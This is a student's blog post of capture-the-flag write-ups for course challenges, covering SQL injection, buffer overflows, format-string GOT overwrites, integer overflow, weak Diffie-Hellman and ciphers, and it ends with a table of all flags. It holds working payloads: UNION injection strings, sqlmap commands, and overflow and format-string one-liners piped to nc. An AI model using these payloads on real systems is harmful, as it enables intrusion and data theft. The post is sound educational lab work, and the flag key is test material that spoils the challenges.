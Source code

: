 ```yaml
---
title: "plsdonthaq.me CTF Challenges"
date: 2019-07-25T13:34:08+10:00

categories: ["Extended Security", "Musings"]
hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  
***WARNING: SPOILERS***  

---

The tutors released some CTF questions at [plsdonthaq.me](http://plsdonthaq.me). Keen!

# Category: Hard
## <s>trivial</s>

<details>

[[trivial]](trivial)

**Analysis**  
There's something _trivial_ about this program...  

Let's take a look at the dissasembly with `objdump -d trivial`, especially at `trivial_malloc` and `trivial_free`.  

```asm
000000000000178d <trivial_malloc>:
    178d:       55                      push   %rbp
    178e:       48 89 e5                mov    %rsp,%rbp
    1791:       48 83 ec 10             sub    $0x10,%rsp
    1795:       89 7d fc                mov    %edi,-0x4(%rbp)
    1798:       b8 00 00 00 00          mov    $0x0,%eax
    179d:       e8 7e f9 ff ff          callq  1120 <rand@plt>
    17a2:       99                      cltd   
    17a3:       c1 ea 0f                shr    $0xf,%edx
    17a6:       01 d0                   add    %edx,%eax
    17a8:       25 ff ff 01 00          and    $0x1ffff,%eax
    17ad:       29 d0                   sub    %edx,%eax
    17af:       05 00 00 40 00          add    $0x400000,%eax
    17b4:       83 e0 f8                and    $0xfffffff8,%eax
    17b7:       48 98                   cltq   
    17b9:       c9                      leaveq 
    17ba:       c3                      retq   

00000000000017bb <trivial_free>:
    17bb:       55                      push   %rbp
    17bc:       48 89 e5                mov    %rsp,%rbp
    17bf:       48 89 7d f8             mov    %rdi,-0x8(%rbp)
    17c3:       90                      nop
    17c4:       5d                      pop    %rbp
    17c5:       c3                      retq   
    17c6:       66 2e 0f 1f 84 00 00    nopw   %cs:0x0(%rax,%rax,1)
    17cd:       00 00 00 
```

Hm...

Let's use a decompiler for an easier understanding of these two functions.

```c
// 0x000000000000178D
int64 trivial_malloc() {
  return (signed int)((rand() % 0x20000 + 0x400000) & 0xFFFFFFF8);
}

// 0x00000000000017BB
void trivial_free() {

}
```

There's ... no `malloc`? Nor is there a `calloc` anywhere?  
And you can definitely see that if you search the dissasembly `objdump -d trivial | grep malloc`.

So, the assignment of our items into the heap is being controlled **manually**!

There's also this function called `con`

```asm
0000000000001716 <con>:
    1716:       55                      push   %rbp
    1717:       48 89 e5                mov    %rsp,%rbp
    171a:       48 83 ec 10             sub    $0x10,%rsp
    171e:       bf 00 00 00 00          mov    $0x0,%edi
    1723:       b8 00 00 00 00          mov    $0x0,%eax
    1728:       e8 b3 f9 ff ff          callq  10e0 <time@plt>
    172d:       89 c7                   mov    %eax,%edi
    172f:       b8 00 00 00 00          mov    $0x0,%eax
    1734:       e8 77 f9 ff ff          callq  10b0 <srand@plt>
    1739:       be 00 00 00 00          mov    $0x0,%esi
    173e:       48 8d 3d bb 0a 00 00    lea    0xabb(%rip),%rdi        # 2200 <_IO_stdin_used+0x200>
    1745:       b8 00 00 00 00          mov    $0x0,%eax
    174a:       e8 a1 f9 ff ff          callq  10f0 <open@plt>
    174f:       89 45 f4                mov    %eax,-0xc(%rbp)
    1752:       8b 45 f4                mov    -0xc(%rbp),%eax
    1755:       41 b9 00 00 00 00       mov    $0x0,%r9d
    175b:       41 89 c0                mov    %eax,%r8d
    175e:       b9 12 00 00 00          mov    $0x12,%ecx
    1763:       ba 03 00 00 00          mov    $0x3,%edx
    1768:       be 00 00 02 00          mov    $0x20000,%esi
    176d:       bf 00 00 40 00          mov    $0x400000,%edi
    1772:       e8 e9 f8 ff ff          callq  1060 <mmap@plt>
    1777:       48 89 45 f8             mov    %rax,-0x8(%rbp)
    177b:       8b 45 f4                mov    -0xc(%rbp),%eax
    177e:       89 c7                   mov    %eax,%edi
    1780:       b8 00 00 00 00          mov    $0x0,%eax
    1785:       e8 16 f9 ff ff          callq  10a0 <close@plt>
    178a:       90                      nop
    178b:       c9                      leaveq 
    178c:       c3                      retq   
```

```c
// 0x0000000000001716
int con() {
  unsigned int v0; // eax@1
  int fd; // ST04_4@1

  v0 = time(0LL);
  srand(v0);
  fd = open("/dev/zero", 0);
  mmap((void *)0x400000, (size_t)&unk_20000, 3, 18, fd, 0LL);
  return close(fd);
}
```

It's some sort of function that sets the seed for `rand`, as well as read a whole chunk of zeros into the memory (our heap address).  
Although I don't see this function being called anywhere - it supposedly runs before `main`

Also, checking the security of this file with `checksec --file=./trivial`:

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX disabled   PIE enabled     No RPATH   No RUNPATH   95 Symbols     Yes      0               3        ./trivial
```

We'll be dealing with a binary that has partial RELRO (Can override the GOT table if need be), a Stack Canary (Won't be able to _just_ do a buffer overflow - ish), and PIE enabled (memory space stuff)

We can see that the stack (and heap) is executable too, with `readelf -l ./trivial`:  
```
GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000 0x0000000000000000  RWE 0x10
```

The `E` in `RWE` stands for **E**xecutable.

---

**`trivial_malloc`**

This function returns a limited address range.

`(0x0 + 0x400000) & 0xFFFFFFF8 = 4194304`  
`(0x19999 + 0x400000) & 0xFFFFFFF8 = 4299160`

So we have a range of `104856` bytes.

As `sizeof(struct node)` is `24` (3x 8byte pointers), and name is 'allocated' `128` bytes, that's `152` bytes per item.  

`(4299160-4194304) / (24 + 128) = 689.84`  
So theoretically, we can have a maximum of 689 / 690 items before we are 'out' of free space

---

I made a breakpoint occur every time `create_item` finishes, to inspect the frame.  

After creating two items, we should expect `*(items)` and `*(items+8)` to be populated, as we do see.

```gdb
(gdb) p/x items                                                                                                                                                                               
$1 = 0x417c20                                                                                                                                                                                 
(gdb) p/x *(items) 
$2 = 0x555580a8                                                                                                                                                                               
(gdb) p/x *(items+8)                                                                                                                                                                          
$3 = 0x404450                                                                                                                                                                                 
(gdb) p/x *(items+16)                                                                                                                                                                         
$4 = 0x0                                                                                                                                                                                      
(gdb) p/x *(items+24)                                                                                                                                                                         
$5 = 0x0                                                                                                                                                                                      
```

I'm not sure what's going on, but it looks like `items[0]` points to an address that wasn't 'allocated'.

---

**glib versions**  


* most things - 2.2.5
* 2.2
* isoc99 functions - 2.7
* stack check - 2.4 

**Possible solutions**  


* heap overflow into shellcode
* Heap spray -> NOP sled \x90

</details>

# Category: Web
## cookie

<details>

> http://plsdonthaq.me:8001

**Solution**  
There's a browser cookie `admin` that is set to `0`.  
Simple just modify the cookie and set it to `1`.

Flag: `COMP6441{you_should_consider_doing_comp_[6843/6447]}`

</details>

## ezpz1.0

<details>

> http://plsdonthaq.me:8013

**Analysis**  
This is an SQL Injection question.  
Unfortunately a few too many people have been most likely [`sqlmap`](http://sqlmap.org/)-ing the poor website, and it was very slow to use (Rate limit your queries!!!).  
(_or, the server was slow to begin with_)

We're given a website with a login form, and a few links at the top.  
One says "flag", but it's a 404 - **it's a red herring**, so let's forget about that.

Doing some reconnaissance, we see that the SQL queries are performed unsafely.  
If we put a `'` into the username input, we're presented with a backend error

`''' LIMIT 1" LINE 3: ... WHERE username=''' ^ [SQL: "SELECT username, password\n FROM users\n WHERE username='''\n LIMIT 1"] (Background on this error at: http://sqlalche.me/e/f405)`

From here, we can see that the backend is using [SQLAlchemy](https://www.sqlalchemy.org/), a SQL library for Python.  
With some more research, we can see that the database is running [Postgres](https://www.postgresql.org/).  

Let's have a look at the query string.  

`"SELECT username, password FROM users WHERE username='' LIMIT 1"`

We see that the query is using apostrophes (`'`) to enclose the username and password strings, so **we also want to use apostrophes** in our exploit.  
We can also see that the password field is indirectly referenced - meaning that we won't be able to perform any sort of injection from the password input field (at least not with this query string alone).  

Firstly, let's guess a username - perhaps `admin`.  
Putting in `admin` and whatever password we want gives us an error saying that the **sha256(hash)** does not match.  
Interesting, so we know that the passwords might be hashed with SHA256.

We can therefore infer that some line of code in the server is performing a comparison: `if (sha256(input_password) == hash_inside_the_database) { ... }`.  

We can see from the SQL query, that the backend _first_ retrieves a record, and _then_ compares the record to our input.  
Obviously we don't have the password, let alone the SHA256 hash of the user `admin` (not yet at least) - but that's okay, we'll just provide our own hash!

We can perform an SQL injection into the username field to provide our own row with the `UNION` operator

Let's create a SHA256 hash of the letter `a` (our forced password)...  
`sha256("a") => ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb`

Injecting `' UNION SELECT 'admin', 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'--` into the username field, and using `a` as the password, we're presented with a welcome page, saying welcome `admin`!


Perhaps we can try get the password hash by concatenating the admin username and password as our first column in the union.

Inject: `' UNION SELECT 'admin' || password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`  
Result: `You are logged in as You are logged in as admin6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

So we've gotten the SHA256 password hash for `admin` to be `6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`, which is probably a hash of the flag!

Let's see what else is in our `users` table.

To extract the names of the columns in our `users` table...  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 0--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 1--`  
`' UNION SELECT column_name, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM information_schema.columns WHERE table_name = 'users' OFFSET 2--`  

These queries give us the existence of three columns, `password`, `username`, and `id`

Searching for the entries in this table (_perhaps we had to find another user?_)...  
`' UNION SELECT id||'.'||username||'.'||password, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM users--`

It gives us just the admin row, `1.admin.6d77eed869f7503fdc1a0c7feb648fffe2398a7b7952b91f0a7acc7fb7e26d2d`

Unfortunately none of the SHA256 rainbow tables had this hash stored, and [HashCat](https://hashcat.net/hashcat/) didn't want to work for me.  
**But that's okay, because everything I just said was unnecessary in finding the flag!**

Instead what we want to do, is to navigate around the database to find the table which contains our flags!

**Solution**  
After snooping around for a bit, we find the existence of the `flag` table, to which we can then extract the flag with another SQL injection.

Inject: `' UNION SELECT flag, 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb' FROM flag--`
Result: `You are logged in as You are logged in as COMP6443{literally_unhackable}`

Flag: `COMP6443{literally_unhackable}`

---

You could have also used [`sqlmap`](http://sqlmap.org/), which is a piece of software designed to do exactly these sort of things!

```
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST 
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dbs  
sqlmap -u http://plsdonthaq.me:8013/ --data username=* --method POST --dump 
```

</details>

# Category: Binary
## poodle

<details>

> Hello what is your favourite type of poodle?  
ENTER POODLE CHOICE NOW>   

[[buf2]](buf2)

**Solution**  
Looking at the disassembly of the code, `scanf` writes into a memory space that is `0x36` bytes long (54 bytes).  
The next 4 bytes are the return value, which we don't care about.

So we need to pad 58 bytes before we can override the return address to the address of `printFlag` (`0x08049259`).  

`python -c 'print("." * 58 + "\x08\x04\x92\x59"[::-1])' | nc plsdonthaq.me 1000`

Flag: `COMP6441{how_good_are_buffer_ove}rflows`

</details>

## format0

<details>

> ```
   ____                    __        __      _
  / __/__  ______ _  ___ _/ /_  ____/ /_____(_)__  ___ _
 / _// _ \/ __/  ' \/ _ `/ __/ (_.-/ __/ __/ / _ \/ _ `/
/_/  \___/_/ /_/_/_/\_,_/\__/ /___/__/ _/ /_/_//_/\_, /
                                                 /___/
Once thought to be just a lazy short cut,
actually leads to remote code execution!

A pointer to the flag is on the stack
format string>
```

[[format0]](format0)

**Solution**  
I reckon this question is broken, you don't need to try at all, just press enter.

Flag: `COMP6441{hacked_the_planet}`

</details>

## format2

<details>

[[format2_32]](format2_32)

**Analysis**  
Looking at the dissassembly of our binary, we see that this is a `printf` exploit.  
To store the input, the program uses `fgets` - to we're limited to 98 (0x63 - 1) bytes of input.  
Additionally, there is a stack canary which may halt our attempts - so we won't be doing a buffer overflow this time.  

(Evidently, because it's a format string challenge.)

Doing some analysis, the return address (EIP) of the `do_the_format` function is `0x080491fb`, which is stored at on the stack at `0xffffd55c`.  
We'll need to change it to `0x080492be`.

_(It was also the 35th item in the stack, but you wouldn't have been able to just write into `%35$n`, as it would write into the address referenced by the data in that slot, rather the address of the slot itself_

`<destinationAddress><destinationAddress+2>%<HI-8>c%5$n%<HI-LO>c%6$n`

Where:

* `destinationAddress` is the address which you wish to write into (`0xffffd55c`)
* `HI` is the first two bytes of the address we want to write (`0x0804`)
* `LO` is the last two bytes of the address we want to write (`0x92be`)

Doing that gives us this chain:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%6$n`

Now it didn't exactly work out for me, because `HI` - `LO` would give me a negative value, and I wasn't sure if that was right or if I had to do something special to fix that.  

After some research, I found a way to write two `short`s instead of a single `int`:  
`\x5c\xd5\xff\xff\x5e\xd5\xff\xff%37558c%2$hn%30022c%3$hn`

But jk it still didn't work - the stack was probably changing, so I couldn't just hardcode `0xffffd55c`

So I tried another approach, this time with the `GOT` entries.  

**Solution**  

**GOT** stands for _Global Offset Table_ and is a mechanism to redirect addresses to external functions (ie provided by libc).  

Looking at GOT entries of the binary with `readelf -r ./format2`, we get this:  
```
Relocation section '.rel.dyn' at offset 0x3fc contains 5 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804bfec  00000106 R_386_GLOB_DAT    00000000   _ITM_deregisterTMClone                                                                                                                                          
0804bff0  00000806 R_386_GLOB_DAT    00000000   __gmon_start__                                                                                                                                                  
0804bff4  00000a06 R_386_GLOB_DAT    00000000   stdin@GLIBC_2.0                                                                                                                                                 
0804bff8  00000b06 R_386_GLOB_DAT    00000000   stdout@GLIBC_2.0                                                                                                                                                
0804bffc  00000c06 R_386_GLOB_DAT    00000000   _ITM_registerTMCloneTa                                                                                                                                          
                                                                                                                                                                                                                
Relocation section '.rel.plt' at offset 0x424 contains 7 entries:                                                                                                                                               
 Offset     Info    Type            Sym.Value  Sym. Name                                                                                                                                                        
0804c00c  00000207 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0                                                                                                                                                
0804c010  00000307 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0                                                                                                                                                
0804c014  00000407 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0                                                                                                                                                 
0804c018  00000507 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4                                                                                                                                      
0804c01c  00000607 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0                                                                                                                                                  
0804c020  00000707 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0                                                                                                                                                
0804c024  00000907 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```

At this point, it's just a matter of choosing an entry to override.  
I decided to override `fflush`, thinking that overriding `printf` might be bad since it's the function that will perform our exploit for us.  

So therefore, we would need to change the value at the address for `fflush`, `*(0x0804c010) = 0x080492be`.

I also seemed to need to add an extra "." at the start of my string to fix the alignment of characters.

So finally I used this format string `.\x10\x11\x12\x13%173c%6$hhn%212c%7$hhn%114c%8$hhn%4c%9$hhn` to gain access to the shell.

[[format2_solver.py]](format2_solver.py)

Flag: `COMP6441{hacked_the_planet_2}`

</details>

## int1

<details>

**Solution**  
I wasn't able to do this challenge the first time, despite doing the exact same thing when attempting it the next day...

We need to input a number that when multiplied by 2, is equal to 2674.  
That would be 1337 right!  

But if you try enter a number greater than or equal to forty, we'll get an error:  

```
Enter a number: 100
Sorry we can't hold numbers >= 40
Budget cuts, they hit everybody...
```

The way to solve this is to perform an integer overflow attack.

Any positive number stored as a _signed integer_ (4 bytes) greater than 2147483647 will cause that number to overflow into the largest negative number.  
Similarly, any negative number stored as a _signed integer_ (4 bytes) less than -2147483647 will cause that number to overflow into the largest positive number. 

So we'll need to enter in `-2147482311` as the value.  

Doing so drops us into a bash shell, where through some recon we can find the flag.

```
$> ls
bin
boot
dev
etc
flag <---- Flag file!!!
...

$> cat flag
COMP6441{hacked_the_ether}
```

Flag: `COMP6441{hacked_the_ether}`

---

Now, the usual piping didn't work, and I'm not entirely sure why it didn't work.  
I even tried adding a time delay between the prints, but it still wouldn't work.  
If anyone knows why this is the case, please let me know!

`python3 -c 'print(-(2*31)+1337)' | nc plsdonthaq.me 1003`

</details>

# Category: Crypto
## <s>birthday attack</s>
## diffie 1

<details>

> INTERCEPTING DIFFY HELLMAN KEY EXCHANGE  
Generator: `19`  
Modulus: `239`  
Alice: here is my (Generator^mySecret) Mod (Modulus): `184`  
Bob: here is my (Generator^mySecret) Mod (Modulus): `227`  
What is their shared key?  
Eve:

**Solution**

The problem with the Diffie Hellman key exchange, is that if the modulus is not large enough, we are able to brute-force crack the secret of each party.

In this case:  
Alice's secret is `37`  
Bob's secret is `171`  

Given either secret, by raising the received public data to our secret, and taking the modulus of that, we are able to determine the shared secret, which in this case is `178`

Entering `178` as Eve's response gives us the flag.

[[diffie1_solver.py]](diffie1_solver.py)  
Usage: `diffie1_solver.py (generator) (modulus) (public)`  
If it's taking too long, perhaps use another set of values of the questions

Flag: `COMP6441{haCk3rs_gunnA_H4K}`

</details>

## diffie 2

<details>

> BEGINING DIFFY HELLMAN KEY EXCHANGE  
Generator: `61`  
Modulus: `823`  
Here is (Generator^mySecret) Mod (Modulus): `373`  
Enter yours: ...  
Enter our secret number: ...

**Solution**  
This is just the standard application of the Diffie Hellman process - no brute-forcing or any sort of cracking needed here.

Pick any secret `s`, then create your public data (base^`s` % modulus), and use that as the value for "Enter yours".  
Then just raise the given public data to your secret apply the modulus for the "Our secret number"

**Trivial Solution**  
Just enter `1`, and `1`

Flag: `COMP6441{sEcuRe_tHe_plaNet!}`

</details>

## <s>MAC</s>
## vinegar

<details>

> adamt told me that his facebook password encrypted is this cipher text: Dlc_ppyq_mq_MSKZ6441{lymo_rri_esfqyr}

**Solution**  
Vinegar ... hm I wonder if it's a _vigenere_ cipher.

Apply some analysis, or just brute force it, to determine that the key is `key`.

Flag: `COMP6441{hack_the_gibson}`

</details>

## <s>hash length magic</s>

<details>

**Analysis**  
Nothing happens when you connect?  
_Or does it?_

When you enter more than 255 characters, you get this message:  
`Send me 0x100 bytes, [sha256(key + message) + message] Where message is get flag`

python3 -c 'key = "a"; m = "get flag"; import hashlib; xx = hashlib.sha256(key.encode() + m.encode()).hexdigest() + m; print(xx + "\x00" * (0x100 - len(xx)))' | nc plsdonthaq.me 9003

</details>

# Category: Misc

## shuffle

<details>

> Can you crack this?  
[[shuffle.txt]](shuffle.txt)

**Solution**
It's a bunch of ASCII art, with the lines shuffled.  
We can sort these lines (by increasing number) and after stripping this order information, we can read the flag from ASCII art.

[[shuffle_solver.py]](shuffle_solver.py)  
[[shuffle_solved.txt]](shuffle_solved.txt)

Flag: `MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`
</details>

## guess

<details>

> Can you guess the flag?  

**Analysis**  
The program is asking for some sort of password.  
If you try to enter `A`... it will instantly kick you out.  
If you try to enter `B`... it will instantly kick you out.  
If you try to enter `C`... there's a 0.5s delay... and then it kicks you out.  

What about a second letter?  
`CA` -> 0.5s, then kick  
`CB` -> 0.5s, then kick  
...  
`CO` -> **one second**, then kick.  

Hmm..

**Solution**  
For each correct letter (case-sensitive, order-sensitive), it takes an extra 0.5 seconds to validate.  
We can use this time-delay as a feedback mechanism to tell us if we are right or not!

So I hacked together a brute-forcing script, and let it run for a few minutes.  
After a while, we successfully retrieve the flag!

Flag: `COMP6441{trollllolollololllol7}`
</details>

# Just give me the answers

|Question|Flag|
|--:|:--|
|trivial|``|
|cookie|`COMP6441{you_should_consider_doing_comp_[6843/6447]}`|
|ezpz1.0|`COMP6443{literally_unhackable}`|
|poodle|`COMP6441{how_good_are_buffer_ove}rflows`|
|format0|`COMP6441{hacked_the_planet}`|
|format2|`COMP6441{hacked_the_planet_2}`|
|int1|`COMP6441{hacked_the_ether}`|
|birthday attack|``|
|diffie 1|`COMP6441{haCk3rs_gunnA_H4K}`|
|diffie 2|`COMP6441{sEcuRe_tHe_plaNet!}`|
|MAC|``|
|vinegar|`COMP6441{hack_the_gibson}`|
|hash length magic|``|
|shuffle|`MAKING ASCII ART IS A KEY PART OF THE HACKERS TOOLKIT`|
|guess|`COMP6441{trollllolollololllol7}`|

